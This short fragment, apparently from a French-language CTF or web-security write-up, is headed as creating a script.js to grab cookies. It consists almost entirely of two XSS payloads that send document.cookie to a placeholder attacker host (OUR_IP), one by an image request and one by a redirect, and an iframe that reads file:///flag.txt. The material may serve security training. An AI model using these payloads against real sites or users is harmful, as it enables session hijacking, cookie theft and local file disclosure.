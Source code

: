 ### *Créer un fichier javascript script.js afin de récupérer le cookie*

```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
```





<iframe src=file:///flag.txt></iframe>